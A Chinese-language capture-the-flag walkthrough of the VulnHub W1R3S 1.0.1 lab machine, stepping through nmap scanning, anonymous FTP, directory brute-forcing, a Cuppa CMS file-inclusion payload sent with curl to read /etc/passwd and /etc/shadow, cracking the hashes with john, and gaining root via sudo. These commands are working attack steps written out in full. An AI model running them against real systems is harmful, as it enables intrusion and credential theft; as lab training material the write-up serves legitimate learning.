## 复盘*

## 靶机地址

[W1R3S: 1.0.1 ~ VulnHub](https://www.vulnhub.com/entry/w1r3s-101,220/)




## 一次参考红队笔记的测试报告

【「红队笔记」靶机精讲：W1R3S 1.0.1 】

https://www.bilibili.com/video/BV1mB4y1j7K6?vd_source=60130d3cdb7cad33541fd87fab4083cd


## 信息收集


### nmap扫描

#### 准备阶段

首先新建一个文件夹，用于存放nmap扫描的结果

```
nmdir nmapscan
```




#### 主机探活

```
nmap -sn 192.168.23.0/24
```

-sn参数已经取代了-sP

-sn表示no port scan（不进行端口扫描），也就是说它只用于检测目标主机是否存活，而不会进一步检测开放的端口

同时，nmap -sn会根据网络回家选择不同的探测方式，如在局域网中，默认会使用ARP请求，因为ARP是局域网中最直接且最高效的主机发现方法，此时进行的扫描基本等效于arp-scan。而在局域网中，会使用ICMP Echo请求（即ping）或TCP SYN/ACK包来检测




也可以选择加上--send-ip参数，让nmap发送ICMP时间戳请求，因为在网络中arp请求可能不会被所有主机响应，而ICMP请求更可靠的用于主机发现

```
nmap --send-ip -sn 192.168.23.0/24
```




#### 全端口扫描

```
nmap -sT -p- 192.168.23.137 -oA nmapscan/ports
```

-sT 指定扫描技术，明确以TCP协议进行扫描

其是用三次握手过程来判断端口的状态，它通过发送完整的TCP连接请求，等待目标主机的回应，如果收到了SYN加ACK回复，则表示响应端口是开放的，其需要进行完整的TCP连接过程，因此相对较慢，但是准确性高。



如果不指定，nmap默认以-sS扫描

-sS 利用TCP的SYN标志位来探测目标主机上的开放端口，发送一个SYN数据包，只建立TCP连接的第一步，如果收到了目标主机的SYN加ACK回复，则表示相应端口是开放的，如果收到RST，也就是复位这个数据包，则表示该端口是关闭的，SYN扫描常用于快速扫描目标主机的端口状态，因为它可以快速探测开放和关闭的端口

（很多防火墙都能够监测到不完整的TCP连接，就是只发送一个SYN数据包的情况，所以使用-sT参数，对于某些目标主机上使用了SYN过滤机制或防火墙的情况可能会更有效）

（在扫描的时候我们要考虑隐蔽性，准确性和速度的平衡）

-p- 是简化的全端口扫描 ，即-p 1-65535，因为nmap默认只扫常用的1000个端口

-oA是输出

检测到开放了三个端口



开放了：	

- 21 ftp
- 22 ssh
- 80 http
- 3306 mysql


#### 获取开放的端口信息

```
ports=$(cat nmapscan/ports.nmap|grep open|awk -F'/' '{print $1}'|paste -sd,)
echo $ports
```



解析：

- 查看扫描结果
- 只保留存在open字段的行

- 利用 '/' 作为分割符，取第一项，即取出端口信息
- 将其合并到一行，并指定 ',' 作为分割符
- 将执行内容赋值给变量$port


#### 详细结果扫描

```
nmap -sT -sV -sC -O -p21,22,80,3306 192.168.23.137 -oA nmapscan/detail
```

-sT：指定进行TCP扫描

-sV：检测服务版本信息

-sC：用默认的脚本扫描

-O：检测操作系统版本

-oA：输出

只扫描开放的端口，减少了大量流量对目标主机的冲击，同时提升了nmap扫描效率和隐蔽性

这是nmap扫描中最重要的一次扫描

21 ftp服务，运行vsftpd 2.0.8

Anonymous即允许匿名访问，有三个文件夹，存在信息泄露




22 ssh服务 OpenSSH 7.2p2 Ubuntu2.4




80 http服务 Apache 




3306 mysql 


#### UDP扫描

```
nmap -sU --top-ports 20 192.168.23.137 -oA nmapscan/udp
```

-sU 与 -sT相对，即只进行UDP扫描

--top-ports 20：表示只扫描常用的20个端口




####  默认脚本扫描

```
nmap --script=vuln -p 21,22,80,3306 192.168.23.137 -oA nmapscan/vuln
```

--script=vuln：其中vuln是nmap中的漏洞脚本目录



- 没有存储型xss

- 没有dom型xss

- 没有CSRF
- 有一个可利用的漏洞是Slowloris DOS attack，但是是DOS攻击

- 获取到登录页面，wp-login.php,wordpressCMS

在渗透测试时，DOS攻击一般不用


#### 总结

nmap五次扫描

- 确定攻击主机ip

- 确定主机开放的端口，缩窄后面的扫描范围

- 进行详细信息扫描，这是最重要的一次扫描

- UDP扫描

- nmap的漏洞脚本扫描

  

确定优先级

优先尝试匿名访问ftp，然后mysql服务弱密码，接着http找线索，最后尝试ssh

重点放在80端口


虽然UDP扫描和漏洞扫描并没有有价值的信息发现，但是每次都值得尝试。


### 21端口

#### 尝试匿名登录ftp

```
ftp 192.168.23.137
anonymous
```



匿名（anonymous）登录

密码为空

登录成功

提示用二进制模式传输文件


```
binary
```

切换到二进制模式



（对于渗透测试，进入到ftp中，首先想到的就是用binary取切换到二进制模式，否则下载下来的的可执行文件可能就是坏的）


##### 下载文件

```
ls
cd content 
ls
```







进入content目录，有三个文件

因为三个文件都要下载，执行prompt，把交互式的提示模式关闭，这样不用每次下载都需要确认

```
prompt
```



因为是三个文件，所以用mget下载

```
mget *.txt
```



mget用于下载多个文件，用*匹配文件名

同时取消交互式的提示模式

（文件少，可以用get一个个下载，但是如果有很多就要考虑用mget，同时取消交互，不需要每个文件下载时都确认）


```
cd ..
cd docs
ls
get worktodo.txt
```



进入docs目录，将worktodo.txt文件也下载下来


```
cd ..
ls
cd new-employees
ls
get employee-names.txt
```



进入new-employees，将employess-names.txt也下载下来


退出ftp

```
exit
```




##### 查看得到的文件

```
ls
cat *.txt
```



分析

```
New FTP Server For W1R3S.inc
W1R3S.inc 的新 FTP 服务器
```

W1R3S，1337格式，WIRES


```
01ec2d8fc11c493b25029fb1f47f39ce
```

MD5，也可利用工具hash-identifier识别

```
hash-identifier 01ec2d8fc11c493b25029fb1f47f39ce
```



提示为MD5

解密



```
This is not a password
这不是一个密码
```


```
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
```

base64

```
echo "SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg=="|base64 -d
```



```
It is easy, but not that easy..
它很简单，但是也没那么简单..
```


```
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

W1R3S.inc的员工表

```
W1R3S.inc 员工名单

Naomi.W - 经理
Hector.A - IT部门
Joseph.G - 网页设计
Albert.O - 网页设计
Gina.L - 库存管理
Rico.D - 人力资源
```

六个人名及职位

考虑制作用户名字典


```
        ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡
....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

翻转的字符串

搜索关键字，flip，上下翻转，reverse，左右翻转，text，文本


第二个即可

[Upside Down Text | Flip Text, Type Upside Down, or Backwards Text](https://www.upsidedowntext.com/)

```
ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

ı don't thınk thıs ıs the way to root!
```

```
....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ

we have a ןot of work to do‘ stop pןayıng around˙˙˙˙
```

```
ı don't thınk thıs ıs the way to root!
we have a ןot of work to do‘ stop pןayıng around˙˙˙˙
我觉得这不是获取 root 权限的方法！我们还有很多工作要做，别玩了……
```


无关键信息


### 3306端口

#### 尝试访问MYSQL

```
mysql -h 192.168.23.137 -u root -p
```



这是linux操作系统，因此一定有root用户，尝试空密码情况，登陆失败，当前主机不允许连接MySQL服务


### 80端口

#### 访问192.168.23.137



ubuntu的默认界面，无关键信息

查看源码，无关键信息


#### gobuster爆破目录

```
gobuster dir -u 192.168.23.137/ -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```



目录字典

/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

得到三个目录

- /wordpress

- javascript
- administrator

wordpress，CMS

administrator 管理员

选择从administrator入手


#### 访问192.168.23.137/administrator




Cuppa CMS

安装界面


#### 访问192.168.23.137/wordpress



自动跳转到localhost

不懂，先不管了


#### 搜索Cuppa相关漏洞

```
searchsploit Cuppa
```



只有一条结果

下载到本地

```
searchsploit -m php/webapps/25971.txt
```



查看



提供了源码地址

```
描述信息：
An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

攻击者可能利用此漏洞包含本地或远程的 PHP 文件，或者读取非 PHP 文件。在创建将被包含到当前文件中的文件名时，使用了用户提供的污染数据。此文件中的 PHP 代码将会被执行，而非 PHP 代码将会被嵌入到输出中。此漏洞可能导致服务器完全被攻陷。
```

可用来远程包含或本地包含



并给出了exp


#### 尝试读取/etc/passwd

结合exp

构造payload

```
http://http//192.168.23.137/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```



404报错

推测：

当前Cuppa是在administrator目录下的，可能cuppa被替换为administrator

重新构造payload

```
http://192.168.23.137/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```



有页面显示，但是无内容

可能是提交方式问题

文档中提供了源码下载地址，尝试下载源码，找到

cuppa_cms\administrator\alerts\alertConfigField.php文件



发现urlConfig的提交方法为POST


利用curl发送POST请求

```
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/passwd' 192.168.23.137/administrator/alerts/alertConfigField.php
```

成功读取/etc/passwd




#### 尝试读取/etc/shadow

```
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/shadow' 192.168.23.137/administrator/alerts/alertCon
figField.php
```





将输出结果保存到passwd.hash




#### 提取用户及密码哈希

```
awk -F: '$2 != "*" && $2 != "!" {print $1 ":" $2}' passwd.hash > passwd1.hash
```



解析：

- awk提取
- -F指定分割符为：
- 判断第二位是否不为 "*" 且第二位不为"!" 
- 将满足条件行输出第一和第二位，并重定向到passwd1.hash


#### 利用john爆破密码

```
john passwd1.hash
```





得到用户名及密码：

```
www-data:www-data
w1r3s:computer
```


### 22端口

#### ssh登录

```
ssh w1r3s@192.168.23.137
```



成功


## 提权

#### 执行sudo -l



发现w1r3s可以sudo执行所有命令


#### sudo /bin/bash

```
sudo /bin/bash
```




#### 得到flag

```
cd /root
ls
cat flag.txt
```


